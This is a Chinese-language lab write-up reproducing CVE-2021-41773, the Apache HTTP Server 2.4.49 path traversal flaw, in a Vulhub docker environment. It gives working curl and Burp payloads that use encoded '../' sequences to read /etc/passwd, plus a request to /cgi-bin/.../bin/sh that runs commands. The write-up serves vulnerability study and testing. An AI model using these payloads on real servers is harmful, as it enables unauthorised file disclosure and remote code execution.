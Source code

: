 # Apache HTTP_2.4.49_路径穿越漏洞(CVE-2021-41773)



| 说明     | 内容                                                         |
| -------- | ------------------------------------------------------------ |
| 漏洞编号 | CVE-2021-41773                                               |
| 漏洞名称 | Apache HTTP  路径穿越漏洞                                    |
| 漏洞评级 | 高危                                                         |
| 影响范围 | 2.4.49                                                       |
| 漏洞描述 | 在Apache HTTP Server 2.4.49中对路径规范化所做的更改中发现了一个缺陷。攻击者可以使用路径遍历攻击将URL映射到预期文档根目录之外的文件 |
| 修复方案 |                                                              |



### 1.1、漏洞描述

Apache HTTP服务器项目致力于为现代操作系统（包括UNIX和Windows）开发和维护开源HTTP服务器。

在Apache HTTP Server 2.4.49中对路径规范化所做的更改中发现了一个缺陷。攻击者可以使用路径遍历攻击将URL映射到预期文档根目录之外的文件。

如果这些目录之外的文件不受通常的默认配置“要求全部拒绝”的保护，则这些请求可以成功。如果CGI脚本也为这些别名路径启用，则可以允许远程代码执行。

### 1.2、漏洞等级

高危

### 1.3、影响版本

Apache HTTP Server 2.4.49

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/httpd/CVE-2021-41773

---

启动测试环境：

```bash
sudo docker-compose build
sudo docker-compose up -d
```

访问`http://your-ip:8080/`即可看到

![image-20230907172650989](./imgs/image-20230907172650989.png)



#### 2、漏洞验证

##### 方式一 curl

`/icons/`必须是现有目录

```bash
curl -v --path-as-is http://192.168.80.141:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

![image-20230907173246831](./imgs/image-20230907173246831.png)

在服务器上启用`mods cgi`或`cgid`后，此路径遍历漏洞将允许执行任意命令

```bash
curl -v --data "echo;id" 'http://192.168.80.141:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

![image-20230907173345062](./imgs/image-20230907173345062.png)

##### 方式二  bp抓包

```bash
/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```



![image-20230907174044422](./imgs/image-20230907174044422.png)

```bash
/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh
echo;id
```



![image-20230907174341511](./imgs/image-20230907174341511.png)

